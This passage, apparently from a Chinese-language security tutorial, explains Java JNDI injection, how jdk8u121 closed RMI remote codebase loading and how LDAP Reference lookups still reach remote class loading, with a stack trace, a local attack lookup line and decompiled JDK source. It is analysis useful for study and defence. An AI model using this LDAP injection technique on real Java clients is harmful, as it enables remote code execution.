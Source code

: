```
com.sun.jndi.rmi.object.trustURLCodebase
```



是否为true，而其在121版本及后，默认为false，也就是说，在jdk8u121之后，我们就没办法通过rmi协议实现JNDI注入打客户端了。

##### LDAP通过Reference加载远程代码

那么，有没有其他办法绕过远程代码加载的保护机制呢？

有，使用ldap协议的JNDI，具体怎么搭这样的一个服务这里就不讲了，marshalsec也有现成的，我们这里只试试对客户端的攻击，并看看客户端做了什么事情吧。

大概触发RCE的执行栈是这样的：

```
getObjectFactoryFromReference:146, NamingManager (javax.naming.spi)
getObjectInstance:189, DirectoryManager (javax.naming.spi)
c_lookup:1085, LdapCtx (com.sun.jndi.ldap)
p_lookup:542, ComponentContext (com.sun.jndi.toolkit.ctx)
lookup:177, PartialCompositeContext (com.sun.jndi.toolkit.ctx)
lookup:205, GenericURLContext (com.sun.jndi.toolkit.url)
lookup:94, ldapURLContext (com.sun.jndi.url.ldap)
lookup:417, InitialContext (javax.naming)
main:17, JndiAttackLookup (com.threedr3am.bug.rmi.client)
```

在jdk191以前的版本里面，我并没有找到相关类似远程代码信任机制的东西，也就是说，通过ldap协议的jndi服务方式，在jdk8u121后，能通过ldap协议实现JNDI注入打客户端：

```
new InitialContext().lookup("ldap://127.0.0.1:1099/Calc")
```



具体原理，从“com.sun.jndi.ldap.LdapCtx#c_lookup”可以发现：

```
static final String[] JAVA_ATTRIBUTES = new String[]{"objectClass", "javaSerializedData", "javaClassName", "javaFactory", "javaCodeBase", "javaReferenceAddress", "javaClassNames", "javaRemoteLocation"};
if (((Attributes)var4).get(Obj.JAVA_ATTRIBUTES[2]) != null) {
    var3 = Obj.decodeObject((Attributes)var4);
}
```



在解析LDAP服务返回的attributes的时候，如果存在javaClassName这个attribute的话，就会进入到“com.sun.jndi.ldap.Obj#decodeObject”的代码逻辑中：

```
static Object decodeObject(Attributes var0) throws NamingException {
    String[] var2 = getCodebases(var0.get(JAVA_ATTRIBUTES[4]));

    try {
        Attribute var1;
        if ((var1 = var0.get(JAVA_ATTRIBUTES[1])) != null) {
            ClassLoader var3 = helper.getURLClassLoader(var2);
            return deserializeObject((byte[])((byte[])var1.get()), var3);
        } else if ((var1 = var0.get(JAVA_ATTRIBUTES[7])) != null) {
            return decodeRmiObject((String)var0.get(JAVA_ATTRIBUTES[2]).get(), (String)var1.get(), var2);
        } else {
            var1 = var0.get(JAVA_ATTRIBUTES[0]);
            return var1 == null || !var1.contains(JAVA_OBJECT_CLASSES[2]) && !var1.contains(JAVA_OBJECT_CLASSES_LOWER[2]) ? null : decodeReference(var0, var2);
        }
    } catch (IOException var5) {
        NamingException var4 = new NamingException();
        var4.setRootCause(var5);
        throw var4;
```